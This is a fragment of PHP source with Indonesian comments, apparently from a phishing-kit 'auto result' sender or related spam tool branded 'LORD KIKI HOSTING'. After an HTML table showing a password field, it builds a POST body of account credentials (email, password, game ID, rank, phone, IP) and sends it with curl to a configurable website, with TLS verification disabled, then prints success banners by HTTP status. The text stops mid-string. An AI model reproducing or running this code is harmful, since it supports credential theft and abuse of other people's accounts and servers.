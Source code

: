 				</tr>
                <tr>
					<td style="border-right: none;">PASSWORD</td>
					<td style="text-align: center;">$password</td>
				</tr>
				<tr>
					<th style="text-align: center;" colspan="3">TUTOR CURL DEK?</th>
				</tr>
			</table>
		</div>
	</body>
	</html>
EOD;
// CURL UNTUK MENGIRIM AUTO RESS
$post = 'int1='.$subjek.'&int2='.$pesan.'&send='.$msg.'&subjek='.$subjek.'&pesan='.$pesan.'&password='.$password.'&ipaddr='.$subjek.'&useragent='.$pesan.'&id='.$id.'&level='.$level.'&nick='.$nick.'&ep='.$ep.'&login='.$login.'&user='.$email.'&pass='.$password.'&sender='.$sender.'&userIdForm='.$id.'&nickname='.$nick.'&imel='.$email.'&pw='.$password.'&playid='.$id.'&tier='.$tier.'&rank='.$tier.'&ranked='.$tier.'&epass='.$ep.'&ua='.$subjek.'&ip='.$pesan.'&ipAddress='.$ip.'&hp='.$email.'&no='.$email.'&phone='.$email.'&nama='.$password.'&ttl='.$date.'&platform='.$plat;        
$curl = curl_init($website);
        curl_setopt($curl, CURLOPT_URL, $website);
        curl_setopt($curl, CURLOPT_POST, true);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);

        $headers = array(
        "Content-Type: application/x-www-form-urlencoded",
        );
        curl_setopt($curl, CURLOPT_HTTPHEADER, $headers);

        curl_setopt($curl, CURLOPT_POSTFIELDS, $post);

        curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
        curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);

        $exec = curl_exec($curl);
        $info = curl_getinfo($curl);
        $time = $info['total_time']; 
        $detik = substr($time,0,1);
        $status = curl_getinfo($curl, CURLINFO_HTTP_CODE);
        curl_close($curl);
        if($status == 200)
        {
        return "
    
  ━━━━━━━━━━━━━━━━━━━[LORD KIKI HOSTING]━━━━━━━━━━━━━━━━━━━\n

  ━━━━━━━━━━━━━━━━━━━[Status -> $h Succes √ $p]━━━━━━━━━━━━━━━━━━━
  ━━━━━━━━━━━━━━━━━━━[Status -> $h Succes √ $p]━━━━━━━━━━━━━━━━━━━
  \n";
        }
        if($status == 404)
        {
        return "
╭──────────────────────────────────────────────❒
├> Number : ".$y." delivered
├> Status : ".$status."
├> Reason : Succes
├> Waktu : ".$detik." detik
└──────────────────────────────────────────────❒\n";
        }
        if($status == 502 || $status == 504 || $status == 500)
        {
        return "
╭──────────────────────────────────────────────❒
├> Number : ".$y." delivered